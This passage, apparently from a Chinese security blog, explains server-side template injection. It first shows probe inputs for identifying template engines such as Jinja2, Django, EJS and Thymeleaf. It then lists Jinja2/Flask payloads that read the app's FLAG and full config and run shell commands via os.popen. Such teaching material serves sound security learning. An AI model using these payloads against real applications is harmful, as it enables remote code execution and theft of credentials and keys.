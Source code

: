 ##  三，[漏洞复现](https://so.csdn.net/so/search?q=%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0&spm=1001.2101.3001.7020)

Web 安全漏洞中遇到服务器端模板注入，需要先判断模板引擎，再根据模板引擎来构造输入。

### 1，如何判断其所属的模板引擎？

（1），Jinja2（Python）

简单表达式测试：输入 { { 5 + 3 }}，若页面返回 8，可能是Jinja2

控制结构测试：输入 {% for i in range(3) %}{ { i }}{% endfor %}，若页面输出 012，进一步表明是Jinja2

过滤器测试：输入 { { 'hello'|upper }}，若页面返回 HELLO，符合Jinja2语法

（2），Tornado 模板引擎（Python） 

表达式测试：输入 { { 5 + 3 }}，若页面返回 8，可能是Tornado模板引擎。

逻辑控制测试：输入 {% for i in \[0, 1, 2\] %}{ { i }}{% end %}，若页面输出 012，符合Tornado语法。

（3）， Django 模板引擎（Python）

简单表达式与过滤器测试：输入 { { 5|add:3 }}，若页面返回 8，可能是Django模板引擎

逻辑判断测试：输入 {% if 5 > 3 %}True{% else %}False{% endif %}，若页面返回 True，符合Django语法。

（4），EJS（JavaScript，用于Node.js的Express框架）

表达式输出测试：输入 &lt;%= 5 + 3 %&gt;，若页面返回 8，可能是EJS。

&nbsp;JavaScript代码嵌入测试：输入&lt;% for (let i = 0; i < 3; i++) { %&gt;&lt;%= i %&gt;&lt;% } %&gt;，若页面输出 012，符合EJS语法。

（5），Thymeleaf（Java，常用于Spring Boot）

变量表达式测试：输入 ${5 + 3}，若页面返回 8，可能是Thymeleaf。

条件判断测试（使用Thymeleaf属性）：输入（在HTML标签中） &lt;p th:if="${5 &gt; 3}">True&lt;/p&gt;，若页面显示 True，符合Thymeleaf语法。

（6），Handlebars（JavaScript）

变量输出测试：输入 { { someVariable }}（假设传递了 someVariable变量），若页面显示该变量的值，可能是Handlebars。

部分模板调用测试：输入 { {> partialTemplate }}（假设定义了 partialTemplate 部分模板），若页面正确渲染部分模板内容，则是Handlebars。  
 

### 2，判断清楚后开始注入

#### （1）Jinja2（Python）

##### 针对 Flask 应用的攻击

* 读取 Flask 应用的 `FLAG`
    * 输入：`{ { url_for.__globals__['current_app'].config['FLAG'] }}`
    * 原理：`url_for` 是 Flask 函数，`__globals__` 指向其全局命名空间，`current_app` 是 Flask 应用实例，`config` 存储配置信息，攻击者借此获取敏感的 `FLAG`。
* 执行任意 Python 代码（通过导入模块）
    * 输入：`{ { url_for.__globals__['__import__']('os').popen('ls /').read() }}`
    * 原理：利用 `__import__` 动态导入 `os` 模块，用 `os.popen` 执行系统命令 `ls /` 并读取输出。
* 获取 Flask 应用的所有配置项
    * 输入：`{ { url_for.__globals__['current_app'].config.items() }}`
    * 原理：访问 `config.items()` 获取 Flask 应用所有配置项及对应值，可能包含数据库连接信息、API 密钥等敏感信息。
